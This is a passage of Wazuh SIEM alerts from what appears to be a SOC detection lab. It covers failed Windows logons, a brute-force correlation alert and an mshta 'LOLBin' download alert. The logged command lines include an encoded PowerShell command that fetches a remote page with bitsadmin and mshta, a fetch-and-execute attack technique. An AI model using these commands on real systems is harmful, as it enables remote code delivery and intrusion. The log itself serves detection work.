10000000000000\",\"systemTime\":\"2026-10-19T18:43:36.4736084Z\",\"eventRecordID\":\"2629\",\"processID\":\"872\",\"threadID\":\"6684\",\"channel\":\"Security\",\"computer\":\"Win10\",\"severityValue\":\"AUDIT_FAILURE\",\"message\":\"\\\"An account failed to log on.\\r\\n\\r\\nSubject:\\r\\n\\tSecurity ID:\\t\\tS-1-5-21-2093812193-1135278953-2291312261-1000\\r\\n\\tAccount Name:\\t\\tsoc\\r\\n\\tAccount Domain:\\t\\tWIN10\\r\\n\\tLogon ID:\\t\\t0xE65B93\\r\\n\\r\\nLogon Type:\\t\\t\\t3\\r\\n\\r\\nAccount For Which Logon Failed:\\r\\n\\tSecurity ID:\\t\\tS-1-0-0\\r\\n\\tAccount Name:\\t\\tsoc\\r\\n\\tAccount Domain:\\t\\tWin10\\r\\n\\r\\nFailure Information:\\r\\n\\tFailure Reason:\\t\\tUnknown user name or bad password.\\r\\n\\tStatus:\\t\\t\\t0xC000006D\\r\\n\\tSub Status:\\t\\t0xC000006A\\r\\n\\r\\nProcess Information:\\r\\n\\tCaller Process ID:\\t0xa2c\\r\\n\\tCaller Process Name:\\tC:\\\\Windows\\\\System32\\\\WindowsPowerShell\\\\v1.0\\\\powershell.exe\\r\\n\\r\\nNetwork Information:\\r\\n\\tWorkstation Name:\\tWIN10\\r\\n\\tSource Network Address:\\t-\\r\\n\\tSource Port:\\t\\t-\\r\\n\\r\\nDetailed Authentication Information:\\r\\n\\tLogon Process:\\t\\tAdvapi  \\r\\n\\tAuthentication Package:\\tNegotiate\\r\\n\\tTransited Services:\\t-\\r\\n\\tPackage Name (NTLM only):\\t-\\r\\n\\tKey Length:\\t\\t0\\r\\n\\r\\nThis event is generated when a logon request fails. It is generated on the computer where access was attempted.\\r\\n\\r\\nThe Subject fields indicate the account on the local system which requested the logon. This is most commonly a service such as the Server service, or a local process such as Winlogon.exe or Services.exe.\\r\\n\\r\\nThe Logon Type field indicates the kind of logon that was requested. The most common types are 2 (interactive) and 3 (network).\\r\\n\\r\\nThe Process Information fields indicate which account and process on the system requested the logon.\\r\\n\\r\\nThe Network Information fields indicate where a remote logon request originated. Workstation name is not always available and may be left blank in some cases.\\r\\n\\r\\nThe authentication information fields provide detailed information about this specific logon request.\\r\\n\\t- Transited services indicate which intermediate services have participated in this logon request.\\r\\n\\t- Package name indicates which sub-protocol was used among the NTLM protocols.\\r\\n\\t- Key length indicates the length of the generated session key. This will be 0 if no session key was requested.\\\"\"},\"eventdata\":{\"subjectUserSid\":\"S-1-5-21-2093812193-1135278953-2291312261-1000\",\"subjectUserName\":\"soc\",\"subjectDomainName\":\"WIN10\",\"subjectLogonId\":\"0xe65b93\",\"targetUserSid\":\"S-1-0-0\",\"targetUserName\":\"soc\",\"targetDomainName\":\"Win10\",\"status\":\"0xc000006d\",\"failureReason\":\"%%2313\",\"subStatus\":\"0xc000006a\",\"logonType\":\"3\",\"logonProcessName\":\"Advapi\",\"authenticationPackageName\":\"Negotiate\",\"workstationName\":\"WIN10\",\"keyLength\":\"0\",\"processId\":\"0xa2c\",\"processName\":\"C:\\\\\\\\Windows\\\\\\\\System32\\\\\\\\WindowsPowerShell\\\\\\\\v1.0\\\\\\\\powershell.exe\"}}}",
  "full_log": "{\"win\":{\"system\":{\"providerName\":\"Microsoft-Windows-Security-Auditing\",\"providerGuid\":\"{54849625-5478-4994-a5ba-3e3b0328c30d}\",\"eventID\":\"4625\",\"version\":\"0\",\"level\":\"0\",\"task\":\"12544\",\"opcode\":\"0\",\"keywords\":\"0x8010000000000000\",\"systemTime\":\"2026-10-19T18:43:36.4809022Z\",\"eventRecordID\":\"2633\",\"processID\":\"872\",\"threadID\":\"10180\",\"channel\":\"Security\",\"computer\":\"Win10\",\"severityValue\":\"AUDIT_FAILURE\",\"message\":\"\\\"An account failed to log on.\\r\\n\\r\\nSubject:\\r\\n\\tSecurity ID:\\t\\tS-1-5-21-2093812193-1135278953-2291312261-1000\\r\\n\\tAccount Name:\\t\\tsoc\\r\\n\\tAccount Domain:\\t\\tWIN10\\r\\n\\tLogon ID:\\t\\t0xE65B93\\r\\n\\r\\nLogon Type:\\t\\t\\t3\\r\\n\\r\\nAccount For Which Logon Failed:\\r\\n\\tSecurity ID:\\t\\tS-1-0-0\\r\\n\\tAccount Name:\\t\\tsoc\\r\\n\\tAccount Domain:\\t\\tWin10\\r\\n\\r\\nFailure Information:\\r\\n\\tFailure Reason:\\t\\tUnknown user name or bad password.\\r\\n\\tStatus:\\t\\t\\t0xC000006D\\r\\n\\tSub Status:\\t\\t0xC000006A\\r\\n\\r\\nProcess Information:\\r\\n\\tCaller Process ID:\\t0xa2c\\r\\n\\tCaller Process Name:\\tC:\\\\Windows\\\\System32\\\\WindowsPowerShell\\\\v1.0\\\\powershell.exe\\r\\n\\r\\nNetwork Information:\\r\\n\\tWorkstation Name:\\tWIN10\\r\\n\\tSource Network Address:\\t-\\r\\n\\tSource Port:\\t\\t-\\r\\n\\r\\nDetailed Authentication Information:\\r\\n\\tLogon Process:\\t\\tAdvapi  \\r\\n\\tAuthentication Package:\\tNegotiate\\r\\n\\tTransited Services:\\t-\\r\\n\\tPackage Name (NTLM only):\\t-\\r\\n\\tKey Length:\\t\\t0\\r\\n\\r\\nThis event is generated when a logon request fails. It is generated on the computer where access was attempted.\\r\\n\\r\\nThe Subject fields indicate the account on the local system which requested the logon. This is most commonly a service such as the Server service, or a local process such as Winlogon.exe or Services.exe.\\r\\n\\r\\nThe Logon Type field indicates the kind of logon that was requested. The most common types are 2 (interactive) and 3 (network).\\r\\n\\r\\nThe Process Information fields indicate which account and process on the system requested the logon.\\r\\n\\r\\nThe Network Information fields indicate where a remote logon request originated. Workstation name is not always available and may be left blank in some cases.\\r\\n\\r\\nThe authentication information fields provide detailed information about this specific logon request.\\r\\n\\t- Transited services indicate which intermediate services have participated in this logon request.\\r\\n\\t- Package name indicates which sub-protocol was used among the NTLM protocols.\\r\\n\\t- Key length indicates the length of the generated session key. This will be 0 if no session key was requested.\\\"\"},\"eventdata\":{\"subjectUserSid\":\"S-1-5-21-2093812193-1135278953-2291312261-1000\",\"subjectUserName\":\"soc\",\"subjectDomainName\":\"WIN10\",\"subjectLogonId\":\"0xe65b93\",\"targetUserSid\":\"S-1-0-0\",\"targetUserName\":\"soc\",\"targetDomainName\":\"Win10\",\"status\":\"0xc000006d\",\"failureReason\":\"%%2313\",\"subStatus\":\"0xc000006a\",\"logonType\":\"3\",\"logonProcessName\":\"Advapi\",\"authenticationPackageName\":\"Negotiate\",\"workstationName\":\"WIN10\",\"keyLength\":\"0\",\"processId\":\"0xa2c\",\"processName\":\"C:\\\\\\\\Windows\\\\\\\\System32\\\\\\\\WindowsPowerShell\\\\\\\\v1.0\\\\\\\\powershell.exe\"}}}",
  "decoder": {
    "name": "windows_eventchannel"
  },
  "data": {
    "win": {
      "system": {
        "providerName": "Microsoft-Windows-Security-Auditing",
        "providerGuid": "{54849625-5478-4994-a5ba-3e3b0328c30d}",
        "eventID": "4625",
        "version": "0",
        "level": "0",
        "task": "12544",
        "opcode": "0",
        "keywords": "0x8010000000000000",
        "systemTime": "2026-10-19T18:43:36.4809022Z",
        "eventRecordID": "2633",
        "processID": "872",
        "threadID": "10180",
        "channel": "Security",
        "computer": "Win10",
        "severityValue": "AUDIT_FAILURE",
        "message": "\"An account failed to log on.\r\n\r\nSubject:\r\n\tSecurity ID:\t\tS-1-5-21-2093812193-1135278953-2291312261-1000\r\n\tAccount Name:\t\tsoc\r\n\tAccount Domain:\t\tWIN10\r\n\tLogon ID:\t\t0xE65B93\r\n\r\nLogon Type:\t\t\t3\r\n\r\nAccount For Which Logon Failed:\r\n\tSecurity ID:\t\tS-1-0-0\r\n\tAccount Name:\t\tsoc\r\n\tAccount Domain:\t\tWin10\r\n\r\nFailure Information:\r\n\tFailure Reason:\t\tUnknown user name or bad password.\r\n\tStatus:\t\t\t0xC000006D\r\n\tSub Status:\t\t0xC000006A\r\n\r\nProcess Information:\r\n\tCaller Process ID:\t0xa2c\r\n\tCaller Process Name:\tC:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe\r\n\r\nNetwork Information:\r\n\tWorkstation Name:\tWIN10\r\n\tSource Network Address:\t-\r\n\tSource Port:\t\t-\r\n\r\nDetailed Authentication Information:\r\n\tLogon Process:\t\tAdvapi  \r\n\tAuthentication Package:\tNegotiate\r\n\tTransited Services:\t-\r\n\tPackage Name (NTLM only):\t-\r\n\tKey Length:\t\t0\r\n\r\nThis event is generated when a logon request fails. It is generated on the computer where access was attempted.\r\n\r\nThe Subject fields indicate the account on the local system which requested the logon. This is most commonly a service such as the Server service, or a local process such as Winlogon.exe or Services.exe.\r\n\r\nThe Logon Type field indicates the kind of logon that was requested. The most common types are 2 (interactive) and 3 (network).\r\n\r\nThe Process Information fields indicate which account and process on the system requested the logon.\r\n\r\nThe Network Information fields indicate where a remote logon request originated. Workstation name is not always available and may be left blank in some cases.\r\n\r\nThe authentication information fields provide detailed information about this specific logon request.\r\n\t- Transited services indicate which intermediate services have participated in this logon request.\r\n\t- Package name indicates which sub-protocol was used among the NTLM protocols.\r\n\t- Key length indicates the length of the generated session key. This will be 0 if no session key was requested.\""
      },
      "eventdata": {
        "subjectUserSid": "S-1-5-21-2093812193-1135278953-2291312261-1000",
        "subjectUserName": "soc",
        "subjectDomainName": "WIN10",
        "subjectLogonId": "0xe65b93",
        "targetUserSid": "S-1-0-0",
        "targetUserName": "soc",
        "targetDomainName": "Win10",
        "status": "0xc000006d",
        "failureReason": "%%2313",
        "subStatus": "0xc000006a",
        "logonType": "3",
        "logonProcessName": "Advapi",
        "authenticationPackageName": "Negotiate",
        "workstationName": "WIN10",
        "keyLength": "0",
        "processId": "0xa2c",
        "processName": "C:\\\\Windows\\\\System32\\\\WindowsPowerShell\\\\v1.0\\\\powershell.exe"
      }
    }
  },
  "location": "EventChannel"
}
```

---

### Rule `100013` — SOC-100013 [T1105]: LOLBin file download detected via C:\\Windows\\System32\\mshta.exe (\"C:\\WINDOWS\\system32\\mshta.exe\" http://192.168.99.40/index.html)

```json
{
  "timestamp": "2026-10-19T18:49:42.921+0000",
  "rule": {
    "level": 10,
    "description": "SOC-100013 [T1105]: LOLBin file download detected via C:\\\\Windows\\\\System32\\\\mshta.exe (\\\"C:\\\\WINDOWS\\\\system32\\\\mshta.exe\\\" http://192.168.99.40/index.html)",
    "id": "100013",
    "mitre": {
      "id": [
        "T1105"
      ],
      "tactic": [
        "Command and Control"
      ],
      "technique": [
        "Ingress Tool Transfer"
      ]
    },
    "firedtimes": 2,
    "mail": false,
    "groups": [
      "local",
      "soc_capstone",
      "command_and_control",
      "lolbin_download"
    ]
  },
  "agent": {
    "id": "002",
    "name": "Win10",
    "ip": "192.168.99.30"
  },
  "manager": {
    "name": "wazuh.manager"
  },
  "id": "1792435782.11199872",
  "full_log": "{\"win\":{\"system\":{\"providerName\":\"Microsoft-Windows-Sysmon\",\"providerGuid\":\"{5770385f-c22a-43e0-bf4c-06f5698ffbd9}\",\"eventID\":\"1\",\"version\":\"5\",\"level\":\"4\",\"task\":\"1\",\"opcode\":\"0\",\"keywords\":\"0x8000000000000000\",\"systemTime\":\"2026-10-19T18:49:42.3649796Z\",\"eventRecordID\":\"3408\",\"processID\":\"6932\",\"threadID\":\"2332\",\"channel\":\"Microsoft-Windows-Sysmon/Operational\",\"computer\":\"Win10\",\"severityValue\":\"INFORMATION\",\"message\":\"\\\"Process Create:\\r\\nRuleName: -\\r\\nUtcTime: 2026-10-19 18:49:42.358\\r\\nProcessGuid: {659b395a-6646-6ad6-a404-000000000300}\\r\\nProcessId: 7140\\r\\nImage: C:\\\\Windows\\\\System32\\\\mshta.exe\\r\\nFileVersion: 11.00.26100.1 (WinBuild.160101.0800)\\r\\nDescription: Microsoft (R) HTML Application host\\r\\nProduct: Internet Explorer\\r\\nCompany: Microsoft Corporation\\r\\nOriginalFileName: MSHTA.EXE\\r\\nCommandLine: \\\"C:\\\\WINDOWS\\\\system32\\\\mshta.exe\\\" http://192.168.99.40/index.html\\r\\nCurrentDirectory: C:\\\\Users\\\\soc\\\\\\r\\nUser: WIN10\\\\soc\\r\\nLogonGuid: {659b395a-6645-6ad6-670f-f80000000000}\\r\\nLogonId: 0xF80F67\\r\\nTerminalSessionId: 0\\r\\nIntegrityLevel: High\\r\\nHashes: MD5=38966EA123D42A1BC11369032D11ECC1,SHA256=57C402A06BCC5E8756F80C5719A179A5CD229706703D613DA5A5224939BA29E8,IMPHASH=71A59821E6458156CA7792C7A1D58E33\\r\\nParentProcessGuid: {659b395a-6645-6ad6-a204-000000000300}\\r\\nParentProcessId: 6432\\r\\nParentImage: C:\\\\Windows\\\\System32\\\\WindowsPowerShell\\\\v1.0\\\\powershell.exe\\r\\nParentCommandLine: powershell  -NoProfile -EncodedCommand CgAkAGIAIAA9ACAAIgBiAGkAdABzAGEAZABtAGkAbgAuAGUAeABlACIACgAmACAAJABiACAALwB0AHIAYQBuAHMAZgBlAHIAIABtAHkASgBvAGIAIABoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgA5ADkALgA0ADAALwBpAG4AZABlAHgALgBoAHQAbQBsACAAQwA6AFwAVABlAG0AcABcAG8AdQB0ADIALgB0AHgAdAAgADIAPgAmADEACgBtAHMAaAB0AGEALgBlAHgAZQAgAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADkAOQAuADQAMAAvAGkAbgBkAGUAeAAuAGgAdABtAGwAIAAyAD4AJgAxAAoAUwB0AGEAcgB0AC0AUwBsAGUAZQBwACAALQBTAGUAYwBvAG4AZABzACAAMQAKAEcAZQB0AC0AUAByAG8AYwBlAHMAcwAgAG0AcwBoAHQAYQAgAC0ARQByAHIAbwByAEEAYwB0AGkAbwBuACAAUwBpAGwAZQBuAHQAbAB5AEMAbwBuAHQAaQBuAHUAZQAgAHwAIABTAHQAbwBwAC0AUAByAG8AYwBlAHMAcwAgAC0ARgBvAHIAYwBlACAALQBFAHIAcgBvAHIAQQBjAHQAaQBvAG4AIABTAGkAbABlAG4AdABsAHkAQwBvAG4AdABpAG4AdQBlAAoA\\r\\nParentUser: WIN10\\\\soc\\\"\"},\"eventdata\":{\"utcTime\":\"2026-10-19 18:49:42.358\",\"processGuid\":\"{659b395a-6646-6ad6-a404-000000000300}\",\"processId\":\"7140\",\"image\":\"C:\\\\\\\\Windows\\\\\\\\System32\\\\\\\\mshta.exe\",\"fileVersion\":\"11.00.26100.1 (WinBuild.160101.0800)\",\"description\":\"Microsoft (R) HTML Application host\",\"product\":\"Internet Explorer\",\"company\":\"Microsoft Corporation\",\"originalFileName\":\"MSHTA.EXE\",\"commandLine\":\"\\\\\\\"C:\\\\\\\\WINDOWS\\\\\\\\system32\\\\\\\\mshta.exe\\\\\\\" http://192.168.99.40/index.html\",\"currentDirectory\":\"C:\\\\\\\\Users\\\\\\\\soc\\\\\\\\\",\"user\":\"WIN10\\\\\\\\soc\",\"logonGuid\":\"{659b395a-6645-6ad6-670f-f80000000000}\",\"logonId\":\"0xf80f67\",\"terminalSessionId\":\"0\",\"integrityLevel\":\"High\",\"hashes\":\"MD5=38966EA123D42A1BC11369032D11ECC1,SHA256=57C402A06BCC5E8756F80C5719A179A5CD229706703D613DA5A5224939BA29E8,IMPHASH=71A59821E6458156CA7792C7A1D58E33\",\"parentProcessGuid\":\"{659b395a-6645-6ad6-a204-000000000300}\",\"parentProcessId\":\"6432\",\"parentImage\":\"C:\\\\\\\\Windows\\\\\\\\System32\\\\\\\\WindowsPowerShell\\\\\\\\v1.0\\\\\\\\powershell.exe\",\"parentCommandLine\":\"powershell  -NoProfile -EncodedCommand CgAkAGIAIAA9ACAAIgBiAGkAdABzAGEAZABtAGkAbgAuAGUAeABlACIACgAmACAAJABiACAALwB0AHIAYQBuAHMAZgBlAHIAIABtAHkASgBvAGIAIABoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgA5ADkALgA0ADAALwBpAG4AZABlAHgALgBoAHQAbQBsACAAQwA6AFwAVABlAG0AcABcAG8AdQB0ADIALgB0AHgAdAAgADIAPgAmADEACgBtAHMAaAB0AGEALgBlAHgAZQAgAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADkAOQAuADQAMAAvAGkAbgBkAGUAeAAuAGgAdABtAGwAIAAyAD4AJgAxAAoAUwB0AGEAcgB0AC0AUwBsAGUAZQBwACAALQBTAGUAYwBvAG4AZABzACAAMQAKAEcAZQB0AC0AUAByAG8AYwBlAHMAcwAgAG0AcwBoAHQAYQAgAC0ARQByAHIAbwByAEEAYwB0AGkAbwBuACAAUwBpAGwAZQBuAHQAbAB5AEMAbwBuAHQAaQBuAHUAZQAgAHwAIABTAHQAbwBwAC0AUAByAG8AYwBlAHMAcwAgAC0ARgBvAHIAYwBlACAALQBFAHIAcgBvAHIAQQBjAHQAaQBvAG4AIABTAGkAbABlAG4AdABsAHkAQwBvAG4AdABpAG4AdQBlAAoA\",\"parentUser\":\"WIN10\\\\\\\\soc\"}}}",
  "decoder": {
    "name": "windows_eventchannel"
  },
  "data": {
    "win": {
      "system": {
        "providerName": "Microsoft-Windows-Sysmon",
        "providerGuid": "{5770385f-c22a-43e0-bf4c-06f5698ffbd9}",
        "eventID": "1",
        "version": "5",
        "level": "4",
        "task": "1",
        "opcode": "0",
        "keywords": "0x8000000000000000",
        "systemTime": "2026-10-19T18:49:42.3649796Z",
        "eventRecordID": "3408",
        "processID": "6932",
        "threadID": "2332",
        "channel": "Microsoft-Windows-Sysmon/Operational",
        "computer": "Win10",
        "severityValue": "INFORMATION",
        "message": "\"Process Create:\r\nRuleName: -\r\nUtcTime: 2026-10-19 18:49:42.358\r\nProcessGuid: {659b395a-6646-6ad6-a404-000000000300}\r\nProcessId: 7140\r\nImage: C:\\Windows\\System32\\mshta.exe\r\nFileVersion: 11.00.26100.1 (WinBuild.160101.0800)\r\nDescription: Microsoft (R) HTML Application host\r\nProduct: Internet Explorer\r\nCompany: Microsoft Corporation\r\nOriginalFileName: MSHTA.EXE\r\nCommandLine: \"C:\\WINDOWS\\system32\\mshta.exe\" http://192.168.99.40/index.html\r\nCurrentDirectory: C:\\Users\\soc\\\r\nUser: WIN10\\soc\r\nLogonGuid: {659b395a-6645-6ad6-670f-f80000000000}\r\nLogonId: 0xF80F67\r\nTerminalSessionId: 0\r\nIntegrityLevel: High\r\nHashes: MD5=38966EA123D42A1BC11369032D11ECC1,SHA256=57C402A06BCC5E8756F80C5719A179A5CD229706703D613DA5A5224939BA29E8,IMPHASH=71A59821E6458156CA7792C7A1D58E33\r\nParentProcessGuid: {659b395a-6645-6ad6-a204-000000000300}\r\nParentProcessId: 6432\r\nParentImage: C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe\r\nParentCommandLine: powershell  -NoProfile -EncodedCommand CgAkAGIAIAA9ACAAIgBiAGkAdABzAGEAZABtAGkAbgAuAGUAeABlACIACgAmACAAJABiACAALwB0AHIAYQBuAHMAZgBlAHIAIABtAHkASgBvAGIAIABoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgA5ADkALgA0ADAALwBpAG4AZABlAHgALgBoAHQAbQBsACAAQwA6AFwAVABlAG0AcABcAG8AdQB0ADIALgB0AHgAdAAgADIAPgAmADEACgBtAHMAaAB0AGEALgBlAHgAZQAgAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADkAOQAuADQAMAAvAGkAbgBkAGUAeAAuAGgAdABtAGwAIAAyAD4AJgAxAAoAUwB0AGEAcgB0AC0AUwBsAGUAZQBwACAALQBTAGUAYwBvAG4AZABzACAAMQAKAEcAZQB0AC0AUAByAG8AYwBlAHMAcwAgAG0AcwBoAHQAYQAgAC0ARQByAHIAbwByAEEAYwB0AGkAbwBuACAAUwBpAGwAZQBuAHQAbAB5AEMAbwBuAHQAaQBuAHUAZQAgAHwAIABTAHQAbwBwAC0AUAByAG8AYwBlAHMAcwAgAC0ARgBvAHIAYwBlACAALQBFAHIAcgBvAHIAQQBjAHQAaQBvAG4AIABTAGkAbABlAG4AdABsAHkAQwBvAG4AdABpAG4AdQBlAAoA\r\nParentUser: WIN10\\soc\""
      },
      "eventdata": {
        "utcTime": "2026-10-19 18:49:42.358",
        "processGuid": "{659b395a-6646-6ad6-a404-000000000300}",
        "processId": "7140",
        "image": "C:\\\\Windows\\\\System32\\\\mshta.exe",
        "fileVersion": "11.00.26100.1 (WinBuild.160101.0800)",
        "description": "Microsoft (R) HTML Application host",
        "product": "Internet Explorer",
        "company": "Microsoft Corporation",
        "originalFileName": "MSHTA.EXE",
        "commandLine": "\\\"C:\\\\WINDOWS\\\\system32\\\\mshta.exe\\\" http://192.168.99.40/index.html",
        "currentDirectory": "C:\\\\Users\\\\soc\\\\",
        "user": "WIN10\\\\soc",
        "logonGuid": "{659b395a-6645-6ad6-670f-f80000000000}",
        "logonId": "0xf80f67",
        "terminalSessionId": "0",
        "integrityLevel": "High",
        "hashes": "MD5=38966EA123D42A1BC11369032D11ECC1,SHA256=57C402A06BCC5E8756F80C5719A179A5CD229706703D613DA5A5224939BA29E8,IMPHASH=71A59821E6458156CA7792C7A1D58E33",
        "parentProcessGuid": "{659b395a-6645-6ad6-a204-000000000300}",
        "parentProcessId": "6432",
        "parentImage": "C:\\\\Windows\\\\System32\\\\WindowsPowerShell\\\\v1.0\\\\powershell.exe",
        "parentCommandLine": "powershell  -NoProfile -EncodedCommand CgAkAGIAIAA9ACAAIgBiAGkAdABzAGEAZABtAGkAbgAuAGUAeABlACIACgAmACAAJABiACAALwB0AHIAYQBuAHMAZgBlAHIAIABtAHkASgBvAGIAIABoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgA5ADkALgA0ADAALwBpAG4AZABlAHgALgBoAHQAbQBsACAAQwA6AFwAVABlAG0AcABcAG8AdQB0ADIALgB0AHgAdAAgADIAPgAmADEACgBtAHMAaAB0AGEALgBlAHgAZQAgAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADkAOQAuADQAMAAvAGkAbgBkAGUAeAAuAGgAdABtAGwAIAAyAD4AJgAxAAoAUwB0AGEAcgB0AC0AUwBsAGUAZQBwACAALQBTAGUAYwBvAG4AZABzACAAMQAKAEcAZQB0AC0AUAByAG8AYwBlAHMAcwAgAG0AcwBoAHQAYQAgAC0ARQByAHIAbwByAEEAYwB0AGkAbwBuACAAUwBpAGwAZQBuAHQAbAB5AEMAbwBuAHQAaQBuAHUAZQAgAHwAIABTAHQAbwBwAC0AUAByAG8AYwBlAHMAcwAgAC0ARgBvAHIAYwBlACAALQBFAHIAcgBvAHIAQQBjAHQAaQBvAG4AIABTAGkAbABlAG4AdABsAHkAQwBvAG4AdABpAG4AdQBlAAoA",
        "parentUser": "WIN10\\\\soc"
      }
    }
  },
  "location": "EventChannel"
}
```

---

### Rule `100200` — SOC-100200 [T1110 CORRELATION]: Successful logon (Event 4624) for soc within 5 minutes of brute-force alert (100007)

```json
{
  "timestamp": "2026-10-19T18:47:04.854+0000",
  "rule": {
    "level": 13,
    "description": "SOC-100200 [T1110 CORRELATION]: Successful logon (Event 4624) for soc within 5 minutes of brute-force alert (100007)",
    "id": "100200",
    "mitre": {
      "id": [
        "T1110",
        "T1078"
      ],
      "tactic": [
        "Credential Access",
        "Defense Evasion",
        "Persistence",
        "Privilege Escalation",
        "Initial Access"
      ],
      "technique": [
        "Brute Force",
        "Valid Accounts"
      ]
    },
    "frequency": 2,
    "firedtimes": 7,
    "mail": true,
    "groups": [
      "local",
      "soc_capstone",
      "credential_access",
      "correlation",
      "compromised_account"
    ]
  },
  "agent": {
    "id": "002",
    "name": "Win10",
    "ip": "192.168.99.30"
  },
  "manager": {
    "name": "wazuh.manager"
  },
  "id": "1792435624.10848364",
  "full_log": "{\"win\":{\"system\":{\"providerName\":\"Microsoft-Windows-Security-Auditing\",\"providerGuid\":\"{54849625-5478-4994-a5ba-3e3b0328c30d}\",\"eventID\":\"4624\",\"version\":\"3\",\"level\":\"0\",\"task\":\"12544\",\"opcode\":\"0\",\"keywords\":\"0x8020000000000000\",\"systemTime\":\"2026-10-19T18:47:04.1011860Z\",\"eventRecordID\":\"2711\",\"processID\":\"872\",\"threadID\":\"964\",\"channel\":\"Security\",\"computer\":\"Win10\",\"severityValue\":\"AUDIT_SUCCESS\",\"message\":\"\\\"An account was successfully logged on.\\r\\n\\r\\nSubject:\\r\\n\\tSecurity ID:\\t\\tS-1-5-18\\r\\n\\tAccount Name:\\t\\tWIN10$\\r\\n\\tAccount Domain:\\t\\tWORKGROUP\\r\\n\\tLogon ID:\\t\\t0x3E7\\r\\n\\r\\nLogon Information:\\r\\n\\tLogon Type:\\t\\t3\\r\\n\\tRestricted Admin Mode:\\t-\\r\\n\\tRemote Credential Guard:\\t-\\r\\n\\tVirtual Account:\\t\\tNo\\r\\n\\tElevated Token:\\t\\tYes\\r\\n\\r\\nImpersonation Level:\\t\\tImpersonation\\r\\n\\r\\nNew Logon:\\r\\n\\tSecurity ID:\\t\\tS-1-5-21-2093812193-1135278953-2291312261-1000\\r\\n\\tAccount Name:\\t\\tsoc\\r\\n\\tAccount Domain:\\t\\tWIN10\\r\\n\\tLogon ID:\\t\\t0xEF8725\\r\\n\\tLinked Logon ID:\\t\\t0x0\\r\\n\\tNetwork Account Name:\\t-\\r\\n\\tNetwork Account Domain:\\t-\\r\\n\\tLogon GUID:\\t\\t{00000000-0000-0000-0000-000000000000}\\r\\n\\r\\nProcess Information:\\r\\n\\tProcess ID:\\t\\t0x188c\\r\\n\\tProcess Name:\\t\\tC:\\\\Program Files\\\\OpenSSH\\\\sshd-session.exe\\r\\n\\r\\nNetwork Information:\\r\\n\\tWorkstation Name:\\t-\\r\\n\\tSource Network Address:\\t-\\r\\n\\tSource Port:\\t\\t-\\r\\n\\r\\nDetailed Authentication Information:\\r\\n\\tLogon Process:\\t\\tsshd\\r\\n\\tAuthentication Package:\\tMICROSOFT_AUTHENTICATION_PACKAGE_V1_0\\r\\n\\tTransited Services:\\t-\\r\\n\\tPackage Name (NTLM only):\\t-\\r\\n\\tKey Length:\\t\\t0\\r\\n\\r\\nThis event is generated when a logon session is created. It is generated on the computer that was accessed.\\r\\n\\r\\nThe subject fields indicate the account on the local system which requested the logon. This is most commonly a service such as the Server service, or a local process such as Winlogon.exe or Services.exe.\\r\\n\\r\\nThe logon type field indicates the kind of logon that occurred. The most common types are 2 (interactive) and 3 (network).\\r\\n\\r\\nThe New Logon fields indicate the account for whom the new logon was created, i.e. the account that was logged on.\\r\\n\\r\\nThe network fields indicate where a remote logon request originated. Workstation name is not always available and may be left blank in some cases.\\r\\n\\r\\nThe impersonation level field indicates the extent to which a process in the logon session can impersonate.\\r\\n\\r\\nThe authentication information fields provide detailed information about this specific logon request.\\r\\n\\t- Logon GUID is a unique identifier that can be used to correlate this event with a KDC event.\\r\\n\\t- Transited services indicate which intermediate services have participated in this logon request.\\r\\n\\t- Package name indicates which sub-protocol was used among the NTLM protocols.\\r\\n\\t- Key length indicates the length of the generated session key. This will be 0 if no session key was requested.\\\"\"},\"eventdata\":{\"subjectUserSid\":\"S-1-5-18\",\"subjectUserName\":\"WIN10$\",\"subjectDomainName\":\"WORKGROUP\",\"subjectLogonId\":\"0x3e7\",\"targetUserSid\":\"S-1-5-21-2093812193-1135278953-2291312261-1000\",\"targetUserName\":\"soc\",\"targetDomainName\":\"WIN10\",\"targetLogonId\":\"0xef8725\",\"logonType\":\"3\",\"logonProcessName\":\"sshd\",\"authenticationPackageName\":\"MICROSOFT_AUTHENTICATION_PACKAGE_V1_0\",\"logonGuid\":\"{00000000-0000-0000-0000-000000000000}\",\"keyLength\":\"0\",\"processId\":\"0x188c\",\"processName\":\"C:\\\\\\\\Program Files\\\\\\\\OpenSSH\\\\\\\\sshd-session.exe\",\"impersonationLevel\":\"%%1833\",\"virtualAccount\":\"%%1843\",\"targetLinkedLogonId\":\"0x0\",\"elevatedToken\":\"%%1842\"}}}",
  "decoder": {
    "name": "windows_eventchannel"
  },
  "data": {
    "win": {
      "system": {
        "providerName": "Microsoft-Windows-Security-Auditing",
        "providerGuid": "{54849625-5478-4994-a5ba-3e3b0328c30d}",
        "eventID": "4624",
        "version": "3",
        "level": "0",
        "task": "12544",
        "opcode": "0",
        "keywords": "0x8020000000000000",
        "systemTime": "2026-10-19T18:47:04.1011860Z",
        "eventRecordID": "2711",
        "processID": "872",
        "threadID": "964",
        "channel": "Security",
        "computer": "Win10",
        "severityValue": "AUDIT_SUCCESS",
        "message": "\"An account was successfully logged on.\r\n\r\nSubject:\r\n\tSecurity ID:\t\tS-1-5-18\r\n\tAccount Name:\t\tWIN10$\r\n\tAccount Domain:\t\tWORKGROUP\r\n\tLogon ID:\t\t0x3E7\r\n\r\nLogon Information:\r\n\tLogon Type:\t\t3\r\n\tRestricted Admin Mode:\t-\r\n\tRemote Credential Guard:\t-\r\n\tVirtual Account:\t\tNo\r\n\tElevated Token:\t\tYes\r\n\r\nImpersonation Level:\t\tImpersonation\r\n\r\nNew Logon:\r\n\tSecurity ID:\t\tS-1-5-21-2093812193-1135278953-2291312261-1000\r\n\tAccount Name:\t\tsoc\r\n\tAccount Domain:\t\tWIN10\r\n\tLogon ID:\t\t0xEF8725\r\n\tLinked Logon ID:\t\t0x0\r\n\tNetwork Account Name:\t-\r\n\tNetwork Account Domain:\t-\r\n\tLogon GUID:\t\t{00000000-0000-0000-0000-000000000000}\r\n\r\nProcess Information:\r\n\tProcess ID:\t\t0x188c\r\n\tProcess Name:\t\tC:\\Program Files\\OpenSSH\\sshd-session.exe\r\n\r\nNetwork Information:\r\n\tWorkstation 